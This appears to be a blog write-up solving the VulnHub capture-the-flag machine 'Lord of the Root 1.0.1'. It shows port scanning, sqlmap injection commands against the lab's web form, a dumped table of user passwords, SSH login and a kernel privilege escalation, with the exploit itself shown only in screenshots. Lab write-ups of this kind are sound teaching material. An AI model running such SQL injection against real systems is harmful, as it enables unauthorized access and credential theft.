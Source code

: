 ```yaml
---
title: Load of the Root 1.0.1
categories: [VulnHub]
tags: [PrivEsc, Recon, Kernel Exploit, mysql]
image:
    path: https://www.vulnhub.com/media/img/entry/lotr-00.png
    alt: Load of the Root Machine 👑
---
```


## **Description ⤵️**


💡 [Lord Of The Root: 1.0.1](https://vulnhub.com/entry/lord-of-the-root-101,129/) →

I created this machine to help others learn some basic CTF hacking strategies and some tools. I aimed this machine to be very similar in difficulty to those I was breaking on the OSCP.

This is a boot-to-root machine will not require any guest interaction.

There are two designed methods for privilege escalation.

- 23/09/2015 == v1.0.1
- 22/09/2015 == v1.0

---

If you are having issues with VirtualBox, try the following:

- Downloaded LordOfTheRoot_1.0.1.ova (confirmed file hash)
- Downloaded and installed VMWare ovftool.
- Converted the OVA to OVF using ovftool.
- Modified the OVF using text editor, and did the following:
    
    replaced all references to "ElementName" with "Caption" replaced the single reference to "vmware.sata.ahci" with "AHCI"
    
- Saved the OVF. +Deleted the .mf (Manifest) file. If you do not you get an error when importing, saying the SHA does not match for the OVF (I also tried modifying the hash, but no luck).
- Try import the OVF file, and it should work fine.

Source: https://twitter.com/dooktwit/status/646840273482330112



### **Let’s find the IP Address first >>**

![103-1.png](/Vulnhub-Files/img/Load_of_the_root/103-1.png)

```bash
IP : 10.0.2.23
```

## Port Scan Results ➡️

![104-2.png](/Vulnhub-Files/img/Load_of_the_root/104-2.png)

![104-1.png](/Vulnhub-Files/img/Load_of_the_root/104-1.png)

```bash
OPEN PORTS >
22   SSH
1337 HTTP
```

---

## Web Enumeration ⤵️

![105-1.png](/Vulnhub-Files/img/Load_of_the_root/105-1.png)

![105-2.png](/Vulnhub-Files/img/Load_of_the_root/105-2.png)

![105-3.png](/Vulnhub-Files/img/Load_of_the_root/105-3.png)

```bash
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```

![105-4.png](/Vulnhub-Files/img/Load_of_the_root/105-4.png)

```bash
Closer!
```

![105-5.png](/Vulnhub-Files/img/Load_of_the_root/105-5.png)

![105-6.png](/Vulnhub-Files/img/Load_of_the_root/105-6.png)

Sqlmap →

```bash
commands →
sqlmap -o -u http**://**10.0.2.23**:**1337**/**978345210**/**index.php --form --dbs --l
```

![105-7.png](/Vulnhub-Files/img/Load_of_the_root/105-7.png)

![105-8.png](/Vulnhub-Files/img/Load_of_the_root/105-8.png)

```bash
Command → 
sqlmap -o -u http://10.0.2.23:1337/978345210/index.php --form --dbms m
```

![105-9.png](/Vulnhub-Files/img/Load_of_the_root/105-9.png)

```bash
+----+------------------+----------+

| id | password         | username |

+----+------------------+----------+

| 1  | iwilltakethering | frodo    |

| 2  | MyPreciousR00t   | smeagol  |

| 3  | AndMySword       | aragorn  |

| 4  | AndMyBow         | legolas  |

| 5  | AndMyAxe         | gimli    |

+----+------------------+----------+
```

Now lets try SSH login →

```bash
MyPreciousR00t
```

![106-1.png](/Vulnhub-Files/img/Load_of_the_root/106-1.png)

Now lets check the kernel version →

![106-2.png](/Vulnhub-Files/img/Load_of_the_root/106-2.png)

I found on web →

![106-3.png](/Vulnhub-Files/img/Load_of_the_root/106-3.png)

![106-4.png](/Vulnhub-Files/img/Load_of_the_root/106-4.png)

Let is try it out →

I got it →

![106-5.png](/Vulnhub-Files/img/Load_of_the_root/106-5.png)

Flag.txt →

![106-6.png](/Vulnhub-Files/img/Load_of_the_root/106-6.png)

<hr>
<br>

# **Summery Notes →**
> 💡
> → sqlmap
>
> → post exploit can be done with exploiting kernel or ,
>
> → Buffer Overflow
{: .prompt-tip }

<hr>